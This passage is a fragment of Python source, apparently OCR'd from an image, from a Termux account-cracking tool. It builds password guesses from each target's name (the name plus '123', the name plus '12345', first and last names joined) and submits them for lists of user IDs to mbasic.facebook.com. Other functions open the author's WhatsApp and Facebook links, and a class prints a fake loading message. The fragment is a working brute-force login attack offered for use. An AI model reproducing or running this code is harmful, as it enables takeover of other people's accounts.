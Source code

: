                             pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]

                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")

                    except:

                        pass

            hasil(ok,cp)

        else:

            print('\n Select Valid One')

            self.__pler__()

            

def dupcutter():

	os.system("xdg-open https://wa.me/+8801861513296")

	time.sleep(3)

	R()

def yt():

	logo()

	os.system("xdg-open https://www.facebook.com/R.k.TANJIDAHMED.termux.tool.owner")

	time.sleep(3)

	R()

    

class load:

    def __init__(self):

        _ = ''

        __ = int('30')

        ___ = int('0')

        __ -= 1

        ___ += 1

        for t in range(int("1")):

            print('\r Wait Bro Loading ...')

            sys.stdout.flush()

            time.sleep(0.1)

        print('\n')

main_apv()


